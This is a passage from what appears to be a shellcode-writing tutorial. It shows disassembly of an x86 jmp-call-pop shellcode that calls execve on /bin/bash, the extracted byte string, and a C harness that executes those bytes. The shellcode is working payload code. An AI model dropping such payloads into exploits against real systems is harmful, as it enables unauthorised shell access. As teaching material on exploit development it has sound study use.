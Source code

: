 ```
 8048063:	31 db                	xor    ebx,ebx
 8048065:	88 5e 09             	mov    BYTE PTR [esi+0x9],bl
 8048068:	89 76 0a             	mov    DWORD PTR [esi+0xa],esi
 804806b:	89 5e 0e             	mov    DWORD PTR [esi+0xe],ebx
 804806e:	8d 1e                	lea    ebx,[esi]
 8048070:	8d 4e 0a             	lea    ecx,[esi+0xa]
 8048073:	8d 56 0e             	lea    edx,[esi+0xe]
 8048076:	31 c0                	xor    eax,eax
 8048078:	b0 0b                	mov    al,0xb
 804807a:	cd 80                	int    0x80

0804807c <call_shellcode>:
 804807c:	e8 e1 ff ff ff       	call   8048062 <shellcode>

08048081 <message>:
 8048081:	2f                   	das    
 8048082:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 8048085:	2f                   	das    
 8048086:	62 61 73             	bound  esp,QWORD PTR [ecx+0x73]
 8048089:	68 41 42 42 42       	push   0x42424241
 804808e:	42                   	inc    edx
 804808f:	43                   	inc    ebx
 8048090:	43                   	inc    ebx
 8048091:	43                   	inc    ebx
 8048092:	43                   	inc    ebx
```

Seems to look ok. Let's use our small script to get shellcode and 
insert it into `shellcode.c`

```
$ shellcode-dump.sh execve
"\xeb\x1a\x5e\x31\xdb\x88\x5e\x09\x89\x76\x0a\x89\x5e\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43"
```

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1a\x5e\x31\xdb\x88\x5e\x09\x89\x76\x0a\x89\x5e\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
